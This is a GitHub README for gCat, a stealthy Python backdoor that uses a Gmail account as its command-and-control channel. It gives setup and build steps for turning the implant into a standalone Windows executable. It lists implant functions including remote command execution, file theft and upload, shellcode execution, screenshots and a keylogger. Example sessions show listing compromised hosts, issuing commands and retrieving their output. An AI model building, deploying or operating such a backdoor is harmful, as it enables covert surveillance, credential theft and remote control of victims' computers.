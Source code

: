 <p align="center">
 <img src="https://github.com/s1l3nt78/gcat/blob/master/.vs/gcat.png" alt="" />
 <br />
 <img src="https://img.shields.io/badge/-Python2-3776AB?style=for-the-badge&logo=python&logoColor=white"><br />
				<img align="center" src="https://img.shields.io/github/issues/s1l3nt78/gcat" />
				<img align="center" src="https://img.shields.io/github/forks/s1l3nt78/gcat" />
				<img align="center" src="https://img.shields.io/github/stars/s1l3nt78/gcat" />
				<br />
				<img align="center" src="https://img.shields.io/badge/Version-1-red" />
				<img align="center" src="https://img.shields.io/badge/Coming-Version 2-orange" />
				<!--<img align="center" src="https://img.shields.io/badge/Revision-2-green" />-->
				<br />
				<img align="center" src="https://www.codefactor.io/repository/github/s1l3nt78/gcat/badge" alt="CodeFactor">
				<img align="center" src="https://img.shields.io/badge/Author-byt3bl33d3r-blue" /><br />
 <img align="center" src="https://img.shields.io/badge/Redevelopment by-s1l3nt78-blueviolet" />
</p>

# gCat
A stealthy Python based backdoor that uses Gmail as a command and control server

#  Original Author: <a href="https://github.com/byt3bl33d3r"><strong>byt3bl33d3r</strong></a>

    Redeveloping a new Version
    *s1l3nt78
    
 -----------------------------------------------------------------------------------------------------
 
## Setup 

For this to work you need:
- A Gmail account (**Use a dedicated account! Do not use your personal one!**)
- Turn on "Allow less secure apps" under the security settings of the account
- You may also have to enable IMAP in the account settings

--------------------------------------------------------------------------------------------------

PreReqs
--------
- <a href="https://www.python.org/ftp/python/2.7.13/python-2.7.13.msi">Python 2 (32-bit for universal system compatibility)</a>
- <a href="https://sourceforge.net/projects/pywin32/files/pywin32/Build%20217/pywin32-217.win32-py2.7.exe/download">PyWin32</a>
- <a href="https://files.pythonhosted.org/packages/52/e5/0ce68034f3441bda11538162796dac5a8e5873e8af5d23aaea65e81c7e51/pyinstaller-2.0.zip">Pyinstaller (<strong>MUST BE VERSION 2</strong>)</a>
- <a href="https://github.com/upx/upx/releases/download/v3.96/upx-3.96-win32.zip">UPX (optional)</a>

      Once you have downloaded the pyinstaller zip file from the link above, unzip it
      and move "implant.py" to the pyinstaller folder from the zip. 
      Ensure python2 is registered in your path then from the pyinstaller folder run:
        
      >  python pyinstaller.py --onefile implant.py

-----------------------------------------------------------------------------------------------------

This repo contains two files:
- ```gcat.py``` a script that's used to enumerate and issue commands to available clients
- ```implant.py``` the actual backdoor to deploy

In both files, edit the ```gmail_user``` and ```gmail_pwd``` variables with the username and password of the account you previously setup.

**Note: It's recommended you compile implant.py using a 32bit Python installation**

--------------------------------------------------------------------------------------------------------

# Usage

```
                                             dP   
                                             88   
                .d8888b. .d8888b. .d8888b. d8888P 
                88'  `88 88'  `"" 88'  `88   88   
                88.  .88 88.  ... 88.  .88   88   
                `8888P88 `88888P' `88888P8   dP   
                     .88                          
                 d8888P  
                     

                   .__....._             _.....__,
                     .": o :':         ;': o :".
                     `. `-' .'.       .'. `-' .'   
                       `---'             `---'  

             _...----...      ...   ...      ...----..._
          .-'__..-''----    `.  `"`  .'    ----'''-..__`-.
         '.-'   _.--'''       `-._.-'       ''''--._   `-.`
         '  .-"'                  :                  `"-.  `
           '   `.              _.'"'._              .'   `
                 `.       ,.-'"       "'-.,       .'
                   `.                           .'
              jgs    `-._                   _.-'
                         `"'--...___...--'"`

                     ...IM IN YURR COMPUTERZ...

                        WATCHIN YURR SCREENZ

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -id ID                Client to target
  -jobid JOBID          Job id to retrieve

  -list                 List available clients
  -info                 Retrieve info on specified client

Commands:
  Commands to execute on an implant

  -cmd CMD              Execute a system command
  -download PATH        Download a file from a clients system
  -upload SRC DST       Upload a file to the clients system
  -exec-shellcode FILE  Execute supplied shellcode on a client
  -screenshot           Take a screenshot
  -lock-screen          Lock the clients screen
  -force-checkin        Force a check in
  -start-keylogger      Start keylogger
  -stop-keylogger       Stop keylogger

Meow!

```

- Once you've deployed the backdoor on a couple of systems, you can check available clients using the list command:
```
#~ python gcat.py -list
f964f907-dfcb-52ec-a993-543f6efc9e13 Windows-8-6.2.9200-x86
90b2cd83-cb36-52de-84ee-99db6ff41a11 Windows-XP-5.1.2600-SP3-x86
```
The output is a UUID string that uniquely identifies the system and the OS the implant is running on


- Let's issue a command to an implant:
```
#~ python gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -cmd 'ipconfig /all'
[*] Command sent successfully with jobid: SH3C4gv
```
Here we are telling ```90b2cd83-cb36-52de-84ee-99db6ff41a11``` to execute ```ipconfig /all```, the script then outputs the ```jobid``` that we can use to retrieve the output of that command

- Lets get the results!
```
#~ python gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -jobid SH3C4gv     
DATE: 'Tue, 09 Jun 2015 06:51:44 -0700 (PDT)'
JOBID: SH3C4gv
FG WINDOW: 'Command Prompt - C:\Python27\python.exe implant.py'
CMD: 'ipconfig /all'


Windows IP Configuration

        Host Name . . . . . . . . . . . . : unknown-2d44b52
        Primary Dns Suffix  . . . . . . . : 
        Node Type . . . . . . . . . . . . : Unknown
        IP Routing Enabled. . . . . . . . : No
        WINS Proxy Enabled. . . . . . . . : No

-- SNIP --
```

- That's the gist of it! But you can do much more as you can see from the usage of the script! ;)

-----------------------------------------------------------------------------------------------

# To Do

- Multi-platform support
- ~~Command to upload files~~
- Transport crypto & obfuscation
